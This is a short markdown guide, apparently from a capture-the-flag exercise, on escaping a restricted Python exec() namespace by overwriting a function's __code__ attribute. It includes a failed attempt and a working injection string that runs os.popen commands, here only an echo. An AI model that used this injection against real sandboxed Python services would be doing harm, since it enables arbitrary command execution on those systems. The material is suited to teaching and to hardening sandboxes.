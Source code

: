 *2022-05-15*

#guide 

> [!Abstract]
>The `__code__` attribute of a Python function can be overwritten, allowing us to break out of a constrained namespace and use an elevated one.

---

We can view all the attributes of a Python object using `print(func.__dir__())`. If we run this on the `print` function object for example, be able to see its `__code__` attribute.

```python
Python 3.10.4 (main, Mar 23 2022, 23:05:40) [GCC 11.2.0] on linux  
Type "help", "copyright", "credits" or "license" for more information.  
>>> print(print.__dir__())  
['__repr__', '__hash__', '__call__', '__getattribute__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__reduce__', '__module__', '__doc__', '__name__', '__qualname__', '__self__', '__text_signature__', '__new__',  
'__str__', '__setattr__', '__delattr__', '__init__', '__reduce_ex__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']
```

We can overwrite this attribute with the code of another function or a lambda. Lambdas are generally easier when working with code injections.

## Example
```python
def func1():
	print(1)

func1()

func1.__code__ = (lambda: print(2)).__code__

func1()
```

Output:
```
1
2
```

## Namespace Escalation
We can use this property to escalate to a namespace with more functions available. Consider the following `exec()` injection with a limited namespace.

> [!Note]
> Notice that the globals available to use in the `exec()` function have been limited. In this case, only `print()` can be called.

#### Failed Exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print(os.popen('whoami').read())"

exec(f"{injection}", builtins)
```

Output:
```shell
Traceback (most recent call last):
  File "/home/james/htb/amidst-us/namespace.py", line 13, in <module>
    exec(f"{injection}", builtins)
  File "<string>", line 1, in <module>
NameError: name 'os' is not defined
```

We get the error that the `os` module is not defined, which make sense since it's not included in the restricted namespace of the `exec`.

Now, lets try the same code with a different injection. This time we're going to overwrite the `__code__` attribute of `print` with that of a custom lambda. We'll then run `print()`.

#### Working Exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print.__code__ = (lambda: print(os.popen('echo EXPLOITED!').read())).__code__; print()"

exec(f"{injection}", builtins)
```

Output:
```
EXPLOITED!
```

> [!Success]
> The `print` function's code is being overwritten with that of our own lambda, but instead of using the constrained namespace of the `exec`, it's using the namespace of `new_print` which has access to the `os` module and all the default Python built-ins. 

With this change, `print(os.popen('echo EXPLOITED!').read())` is running as if it's not in the constrained namespace.

---

# References
* https://stackoverflow.com/questions/6886493/get-all-object-attributes-in-python

---